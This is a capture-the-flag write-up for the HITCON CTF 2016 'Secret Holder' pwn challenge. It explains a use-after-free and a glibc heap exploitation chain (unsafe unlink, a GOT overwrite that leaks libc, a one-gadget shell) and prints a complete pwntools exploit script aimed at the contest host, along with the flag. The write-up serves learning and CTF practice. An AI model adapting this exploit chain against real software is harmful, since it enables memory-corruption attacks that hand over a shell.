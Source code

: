 ```yaml
---
title: 'HITCON CTF 2016 Quals -- Secret Holder'
date: 2016-10-10 16:10
tags:
  - CTF
  - Python
  - HITCON
  - heap
  - Pwnable
  - use-after-free
  - heap_overflow
categories:
  - write-ups
author: bruce30262
---
```

**Category:** pwn
**Points:** 100

<!-- more -->  

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 = atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big = 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge = 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small = 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python exp_secret.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`   
